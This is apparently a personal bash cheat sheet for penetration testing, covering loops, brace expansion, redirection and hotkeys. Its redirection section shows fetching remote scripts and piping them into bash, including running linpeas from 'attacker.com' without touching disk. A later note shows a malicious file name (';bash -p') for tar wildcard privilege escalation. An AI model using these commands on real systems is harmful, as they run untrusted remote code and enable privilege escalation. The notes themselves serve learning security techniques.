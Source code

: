 # bash isms
> bash default vars
```bash
echo $?      # gives error code of most recently run command
```


> for loop
```bash
for i in {0..100}; do  CMD; done
also works for command execs: 
for i in $(cat wordlist.txt); do curl http://IP/$i; done
```

> Brace expansion; similar to * operator on iteratbles in python
```bash
cat {file1,file2,file3} 	 	; will cat those file

useful for 
	mkdir dir{1..4} dirA{1..8}
	wget http://MY_IP/{file1,file2} 		; note could even do a loop style brace expansion of numbers or letters here

'other examples'
	{a..z}
	{1..-5}
```

> a note on mkdir; creating a path of dirs
```bash
mkdir -p dir1/dir2/dir3
```

> use ENV vars in your bash scripting by:
```bash
${ENV_VARIABLE} 		; perhaps un-exported?

similar to $my_var
```

> redirection
```sh
./BINARY < exploit.txt
	exploit.txt must contain 1 input per line

can wget a bash script and pipe it into bash to execute a hosted script
	wget http://IP/SCRIPT | bash

can run linpeas without touching disk
	bash <(curl http://attacker.com/LINPEAS)
```

> advanced redirection, i am calling this bidirection
```shell
while read -r line; echo "prefix-$line";done < wordlist > outfile
```
The above bidirection 


> file creation and "done with arguments"
```sh
When trying to create malicious filenames use:
	touch -- ';bash -p' 
E.g. when doing tar GTFO bins priv esc 
	alternate, echo into malicous filenames

```

> keystrokes and hotkeys
```sh
alt+.  # hotkey for use last argument
cd -   # cd to last working dir
ctrl+r # reverse search previous cmds
```




